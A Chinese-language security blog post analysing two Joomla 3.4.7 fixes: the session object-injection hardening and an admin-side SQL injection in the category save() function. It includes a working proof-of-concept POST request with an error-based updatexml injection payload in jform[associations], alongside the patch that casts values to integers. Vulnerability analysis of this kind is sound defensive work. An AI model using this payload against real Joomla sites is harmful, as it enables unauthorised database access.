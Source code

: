 ```yaml
---
title: Joomla 3.4.7 修复的反序列化与SQL注入
date: 2015-10-20 08:08:11
category:
  - 网络安全
tag:
  - web安全
  - SQL注入
  - 反序列化
order: 0
---
```


## 反序列化漏洞修复分析

前一阵子 Joomla 的对象注入很火，而官方3.4.6的修复仅仅是严格过滤了X_FORWARDED_FOR、注释了USER_AGENT存入SESSION那一句，见：
[https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021](https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021)
这样只是指哪补哪，治标不治本。看来官方上次的修复只是临时解决方案，这次的更新(3.4.7)算是彻底解决了此问题。

上次的对象注入，需要满足三个条件：

1. 自己实现session的处理方式，重新实现了 session 存储的read()和write()方法，但是并没有对 session 的值进行安全处理。
2. Mysql非strict mode下，使用utf8mb4字符 `\xF0\x9D\x8C\x86` 来截断。
3. PHP <= 5.6.13 session中反序列化解析的BUG。

Joomla 官方也只能解决第一个，也就是改进session的处理方式。这次更新，在 libraries/cms/version/version.php 中，将SESSION存储在内部的Registry类对象中，弃用了以前使用 $_SESSION[$namespace][$name] 的方式：

```php
$this->data = new \Joomla\Registry\Registry;
```

并且，在写SESSION的时候会先做base64_encode：

```php
public function close(){
	if ($this->_state !== 'active'){
		// @TODO :: generated error here
		return false;
	}
	$session = JFactory::getSession();
	$data    = $session->getData();

	// Before storing it, let's serialize and encode the JRegistry object
	$_SESSION['joomla'] = base64_encode(serialize($data));

	session_write_close();
	return true;
}
```

这样，$_SESSION 就只剩下了$_SESSION[‘joomla’]，而且$_SESSION[‘joomla’] 只存储了Registry的对象$data，在执行read()和write()时候，SESSION是经过base64_encode后的数据，就不会存在read()之后自动反序列化而导致对象注入了。

在反序列化的时候也不存在unserialize参数可控的情况。（可控的只是$data的成员变量）

```php
if (isset($_SESSION['joomla']) && !empty($_SESSION['joomla'])){
    $data = $_SESSION['joomla'];
    $data = base64_decode($data);
    $this->data = unserialize($data);
}
```

Joomla官方这次的解决方案比较好，不像上次那样治标不治本，这样的态度值得称赞。反观Apache对struts2 漏洞的修复…就不说了。

## SQL注入漏洞分析

### 漏洞分析

代码位于，administrator/components/com_categories/models/category.php，save()函数内：

```php
$assoc = $this->getAssoc();

if ($assoc)
{
	// Adding self to the association
	$associations = $data['associations'];

	foreach ($associations as $tag => $id)
	{
		if (empty($id))
		{
			unset($associations[$tag]);
		}
	}

	// Detecting all item menus
	$all_language = $table->language == '*';

	if ($all_language && !empty($associations))
	{
		JError::raiseNotice(403, JText::_('COM_CATEGORIES_ERROR_ALL_LANGUAGE_ASSOCIATED'));
	}

	$associations[$table->language] = $table->id;

	// Deleting old association for these items
	$db = $this->getDbo();
	$query = $db->getQuery(true)
		->delete('#__associations')
		->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
		->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
	$db->setQuery($query);
	$db->execute();

	if ($error = $db->getErrorMsg())
	{
		$this->setError($error);

		return false;
	}

	if (!$all_language && count($associations))
	{
		// Adding new association for these items
		$key = md5(json_encode($associations));
		$query->clear()
			->insert('#__associations');

		foreach ($associations as $id)
		{
			$query->values($id . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
		}

		$db->setQuery($query);
		$db->execute();

		if ($error = $db->getErrorMsg())
		{
			$this->setError($error);

			return false;
		}
	}
}
```

其中的 $associations 未经过适当处理、我们跟着流程来看看。

首先，`$assoc = $this->getAssoc();` 为 True 的时候整个逻辑才能进来，这个`getAssoc()`是什么呢？跟进getAssoc()的实现(文件的 1234 行)，发现关键是在：

```php
$assoc = JLanguageAssociations::isEnabled();
```

搜索一下，发现 JLanguageAssociations 是 Joomla 的一个多语言插件 [http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler](http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler), 这个插件是 Joomla 自带的，默认没有开启，我们在后台将他开启。

然后，继续看代码，`$associations = $data['associations'];`, $data是post过来的数据，$associations没有经过过滤就传到了：

```php
$query = $db->getQuery(true)
				->delete('#__associations')
				->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
				->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
```

导致SQL注入。

那 Joomla 有没有全局过滤呢？我们看看 Joomla 是如何处理POST数据的。

在 libraries/legacy/controller/form.php , save() 函数，

```php
public function save($key = null, $urlVar = null){
    ...
    $data  = $this->input->post->get('jform', array(), 'array');
    ...
    $validData = $model->validate($form, $data);
```

validate() 函数在 libraries/legacy/model/form.php 302行, 他又调用了libraries/joomla/form/form.php 的filter() 函数，具体实现就不继续了，总之这里的POST参数只是处理了 ‘ XSS and specified bad code. ‘。

最后，构造POC。在修改分类，保存的时候，修改POST数据:

```php
POST /Joomla/administrator/index.php?option=com_categories&extension=com_content&layout=edit&id=19

jform[title]=Joomla!&jform[alias]=joomla&jform[description]=&jform[parent_id]=14&jform[published]=1&jform[access]=1&jform[language]=*&jform[note]=&jform[version_note]=&jform[created_time]=2011-01-01+00:00:01&jform[created_user_id]=945&jform[modified_time]=2015-12-23+08:09:46&jform[modified_user_id]=945&jform[hits]=0&jform[id]=19&jform[metadesc]=&jform[metakey]=&jform[metadata][author]=&jform[metadata][robots]=&jform[associations][en-GB]=2) or updatexml(1,concat(0x7e,(version())),0) -- -&jform[rules][core.create][1]=&jform[rules][core.delete][1]=&jform[rules][core.edit][1]=&jform[rules][core.edit.state][1]=&jform[rules][core.edit.own][1]=&jform[rules][core.create][13]=&jform[rules][core.delete][13]=&jform[rules][core.edit][13]=&jform[rules][core.edit.state][13]=&jform[rules][core.edit.own][13]=&jform[rules][core.create][6]=&jform[rules][core.delete][6]=&jform[rules][core.edit][6]=&jform[rules][core.edit.state][6]=&jform[rules][core.edit.own][6]=&jform[rules][core.create][7]=&jform[rules][core.delete][7]=&jform[rules][core.edit][7]=&jform[rules][core.edit.state][7]=&jform[rules][core.edit.own][7]=&jform[rules][core.create][2]=&jform[rules][core.delete][2]=&jform[rules][core.edit][2]=&jform[rules][core.edit.state][2]=&jform[rules][core.edit.own][2]=&jform[rules][core.create][3]=&jform[rules][core.delete][3]=&jform[rules][core.edit][3]=&jform[rules][core.edit.state][3]=&jform[rules][core.edit.own][3]=&jform[rules][core.create][4]=&jform[rules][core.delete][4]=&jform[rules][core.edit][4]=&jform[rules][core.edit.state][4]=&jform[rules][core.edit.own][4]=&jform[rules][core.create][5]=&jform[rules][core.delete][5]=&jform[rules][core.edit][5]=&jform[rules][core.edit.state][5]=&jform[rules][core.edit.own][5]=&jform[rules][core.create][10]=0&jform[rules][core.delete][10]=&jform[rules][core.edit][10]=&jform[rules][core.edit.state][10]=&jform[rules][core.edit.own][10]=&jform[rules][core.create][12]=0&jform[rules][core.delete][12]=&jform[rules][core.edit][12]=&jform[rules][core.edit.state][12]=&jform[rules][core.edit.own][12]=&jform[rules][core.create][8]=&jform[rules][core.delete][8]=&jform[rules][core.edit][8]=&jform[rules][core.edit.state][8]=&jform[rules][core.edit.own][8]=&jform[params][category_layout]=&jform[params][image]=&jform[params][image_alt]=&jform[extension]=com_content&task=category.apply&2ebbc80d46dda42570c1b1699a58323d=1
```

jform[associations][en-GB] 这个参数就是 $associations，成功注入。

![Jommla](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/dWuY7g.jpg)

> 这里打一波广告，我们的Skywolf是可以轻松检测出来的，如下图

![Skywolf](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/vwJyVt.jpg)

另外，`libraries/legacy/model/admin.php` 这里也存在着同样的问题。

### 修复方案

官方增加了：

```php
...
$associations = Joomla\Utilities\ArrayHelper::toInteger($associations);
...
$query->values(((int) $id) . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
...
```

将 $associations 中的所有值转换为int型。还有将 $id 强制转换为int。

## 参考资料

1. [http://drops.wooyun.org/papers/11330](http://drops.wooyun.org/papers/11330)
2. [http://drops.wooyun.org/papers/11371](http://drops.wooyun.org/papers/11371)
3. [http://bobao.360.cn/learning/detail/2501.html](http://bobao.360.cn/learning/detail/2501.html)
4. [https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e](https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e)
5. [https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html](https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html)